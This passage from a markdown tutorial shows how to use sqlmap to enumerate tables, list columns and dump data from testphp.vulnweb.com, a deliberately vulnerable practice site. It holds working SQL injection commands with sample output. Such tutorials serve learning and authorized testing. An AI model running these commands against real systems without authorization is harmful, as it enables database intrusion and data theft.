 ```sh
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T artists
```

### Get Columns

Use option `--columns` to get the columns in the tables, then use option `-C` to enter the specified columns.

```sh
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T pictures --columns
```

```
[HH:MM:50] [INFO] fetching columns for table 'pictures' in database 'acuart'
Database: acuart
Table: pictures
[8 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| a_id   | int          |
| cat_id | int          |
| img    | varchar(50)  |
| pic_id | int          |
| plong  | text         |
| price  | int          |
| pshort | mediumtext   |
| title  | varchar(100) |
+--------+--------------+
```

```sh
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T pictures -C img
```

### Get Datas

Use option `--dump` to get all the data in the database.

```sh
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T pictures -C img --dump
```

```
Database: acuart
Table: pictures
[7 entries]
+------------------+
| img              |
+------------------+
| ./pictures/1.jpg |
| ./pictures/2.jpg |
| ./pictures/3.jpg |
| ./pictures/4.jpg |
| ./pictures/5.jpg |
| ./pictures/6.jpg |
| ./pictures/7.jpg |
+------------------+
```
